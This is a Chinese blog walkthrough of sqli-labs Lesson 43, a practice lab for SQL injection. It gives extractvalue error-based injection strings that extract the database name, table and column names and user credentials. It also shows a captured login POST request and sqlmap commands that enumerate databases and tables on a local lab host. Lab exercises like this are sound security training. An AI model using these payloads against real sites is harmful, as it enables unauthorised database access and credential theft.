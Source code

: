```yaml
---
title: sqli-labs lession-43 POST基于错误-字符型-堆叠注入变形
date: 2018-10-21 19:30:32
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-43 POST基于错误-字符型-堆叠注入变形

---

## 分析

这一课Lesson-42只是闭合不同。详细分析看上一课。

{% post_link sqli-labs-lession-42-POST报错注入-字符型-堆叠注入 点击查看Lesson-42%}

## 注入

利用password报错注入。单引号会报错。

![001](/img/sql/Lesson-43/001.png)

根据报错信息获取数据。这里hackbar没有效果,手动测试。

### 获取数据库名

`')and extractvalue(null,concat(0x7e,database(),0x7e))#`

![002](/img/sql/Lesson-43/002.png)

![003](/img/sql/Lesson-43/003.png)

### 获取表名

`select group_concat(table_name) from information_schema.tables where table_schema='security'`

![0044](/img/sql/Lesson-43/004.png)

![005](/img/sql/Lesson-43/005.png)

### 获取列名

`')and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),0x7e))#`

![006](/img/sql/Lesson-43/006.png)

![007](/img/sql/Lesson-43/007.png)

### 获取字段

`')and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 3,1),0x7e))#`

![008](/img/sql/Lesson-43/008.png)

![009](/img/sql/Lesson-43/009.png)

## 堆叠注入

{% post_link sqli-labs-lession-42-POST报错注入-字符型-堆叠注入 点击查看Lesson-42%}

## SQLMAP

用burpsuite抓包

```
POST /sql/Less-43/login.php HTTP/1.1
Host: 192.168.75.132
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.75.132/sql/Less-43/
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Cookie: PHPSESSID=ajc8kb6jotq4mv1n736ni1t624
Connection: close
Upgrade-Insecure-Requests: 1

login_user=123&login_password=123&mysubmit=Login
```

`sqlmap -r post/post_43.txt -p "login_password" --method=POST --dbms mysql --technique E -v 3 --level 2 --flush-session --fresh-queries`

![010](/img/sql/Lesson-43/010.png)

`sqlmap -r post/post_43.txt -p "login_password" --method=POST --dbms mysql --technique E -v 3 --level 2 --dbs --threads 20`

![011](/img/sql/Lesson-43/011.png)

`sqlmap -r post/post_43.txt -p "login_password" --method=POST --dbms mysql --technique E -v 3 --level 2 -D security --tables --threads 20`

![012](/img/sql/Lesson-43/012.png)

![013](/img/sql/Lesson-43/013.png)

![014](/img/sql/Lesson-43/014.png)



